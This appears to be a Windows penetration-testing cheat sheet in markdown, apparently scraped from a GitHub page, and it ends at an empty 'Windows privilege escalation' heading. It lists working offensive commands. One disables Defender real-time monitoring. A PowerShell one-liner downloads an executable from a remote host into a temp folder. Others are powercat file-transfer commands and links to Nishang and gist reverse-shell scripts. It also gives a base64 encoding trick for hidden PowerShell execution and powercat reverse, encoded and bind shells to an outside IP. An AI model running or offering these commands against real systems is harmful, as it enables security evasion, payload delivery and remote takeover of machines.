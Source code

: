 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443`

# Windows privilege escalation
